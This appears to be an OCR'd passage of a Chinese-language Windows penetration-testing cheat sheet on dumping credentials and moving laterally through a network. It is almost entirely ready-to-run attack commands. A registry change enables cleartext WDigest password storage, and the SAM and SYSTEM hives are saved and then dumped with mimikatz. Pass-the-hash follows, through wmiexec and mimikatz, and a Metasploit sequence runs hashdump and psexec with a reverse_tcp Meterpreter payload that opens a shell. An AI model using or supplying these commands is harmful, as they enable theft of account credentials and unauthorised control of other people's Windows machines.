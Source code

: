 >   Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1

重启或者用户再次登录，能够导出明文口令, 参考下文：

3gstudent 自动Dump-Clear-Text-Password-after-KB2871997-installed

>   https://github.com/3gstudent/Dump-Clear-Password-after-KB2871997-installed

### SAM-hash

管理权限：

>   reg save HKLM\SYSTEM Sys.hiv
>
>   reg save HKLM\SAM Sam.hiv

mimikatz:

>   lsadump::sam /sam:Sam.hiv /system:Sys.hiv

### pass the hash

wmiexec 普通权限即可

>   https://github.com/maaaaz/impacket-examples-window

>   domain=TEST user=test1
>
>   wmiexec -hashes 00000000000000000000000000000000:99b2b135c9e829367d9f07201b1007c3 TEST/test1@192.168.1.1 "whoami"

需要管理权限

>   mimikatz "privilege::debug" "sekurlsa::pth /user:abc /domain:test.local /ntlm:hash"

>   meterpreter > run post/windows/gather/hashdump
>
>   meterpreter > background

>   msf > use exploit/windows/smb/psexec
>
>   msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
>
>   msf exploit(psexec) > set SMBuser Administrator
>
>   msf exploit(psexec) > set SMBPass xxxxxxxxxxxx9a224a3b108f3fa6cb6d:xxxxf7eaee8fb117ad06bdd830b7586c
>
>   msf exploit(psexec) > exploit
>
>   meterpreter > shell

安装了 KB2871997 补丁或者系统版本大于等于 windows server 2012 时，内存不再明文保存密码，1,改注册表后，注销再次登录，可以使用，schtasks 等执行命令无法用管理员权限。2.用 ptk，ptt。例外，打补丁后 administrato（SID-500） 依旧可以pth

>   https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Pass-The-Hash%E7%9A%84%E5%AE%9E%E7%8E%B0/
